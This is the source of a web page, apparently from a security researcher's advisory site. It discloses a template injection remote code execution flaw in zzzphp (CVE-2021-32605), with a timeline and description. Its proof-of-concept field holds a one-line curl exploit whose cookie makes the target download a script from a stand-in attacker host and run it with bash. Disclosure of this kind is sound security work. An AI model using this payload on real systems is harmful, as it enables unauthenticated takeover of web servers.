 ```yaml
---
layout: page
permalink: /advisories/src-2021-0015/
id: SRC-2021-0015
atitle: zzzcms zzzphp parserIfLabel Template Injection Remote Code Execution Vulnerability
CVE: CVE-2021-32605
CVSSrating: 9.8
CVSSscore: (/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
vendor: zzzcms
affected: zzzphp <= 2.0.3
timeline: [
2021-04-27 – Sent to zzzcms,
2021-05-04 – No response from the vendor,
2021-05-04 – Sent an email requesting a status update,
2021-05-11 – No response from the vendor,
2021-05-11 – Vendor releases 2.0.4 with the note - "Fix a security loophole please update it in time.",
2021-05-11 – Uncoordinated public release of advisory,
]
credit: Steven Seeley (mr_me) of Qihoo 360 Vulcan Team
body: |
 <p class="cn" markdown="1">This vulnerability allows remote attackers to execute arbitrary code on affected installations of zzzphp. Authentication is not required to exploit this vulnerability.</p>
 <p class="cn" markdown="1">The specific flaw exists within the processing of the search template. The issue results from the lack of proper validation of user-supplied keys when processing the search template. An attacker can leverage this vulnerability to execute code in the context of the web server.</p>
acknowledgments:
poc: curl -b 'keys={if:=`curl http://attacker.tld/poc.sh|bash`}{end if}' 'http://target.tld/?location=search'
---
```


#### **{{page.id}} : {{page.atitle}}**

**CVE ID:**
{{page.CVE}}

**CVSS Score:**
{{page.CVSSrating}}, [{{page.CVSSscore}}](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?vector={{page.CVSSscore}})

**Affected Vendors:**
{{page.vendor}}

**Affected Products:**
{{page.affected}}
{% if page.affectedlist %}
{% for item in page.affectedlist %}
  - {{ item }}
{% endfor %}
{% endif %}
**Vulnerability Details:**
{{page.body}}

**Vendor Response:**

{{page.vendor}} has issued an update to correct this vulnerability. More details can be found at: [http://www.zzzcms.com/a/news/31_282_1.html](http://www.zzzcms.com/a/news/31_282_1.html)

**Disclosure Timeline:**
{% for item in page.timeline %}
  - {{ item }}
{% endfor %}
{% if page.poc %}

**Proof of Concept:**
```{{page.poc}}```

{% endif %}
**Credit:**
This vulnerability was discovered by {{page.credit}}
{% if page.acknowledgments %}

**Acknowledgments:**
{{page.acknowledgments}}
{% endif %}
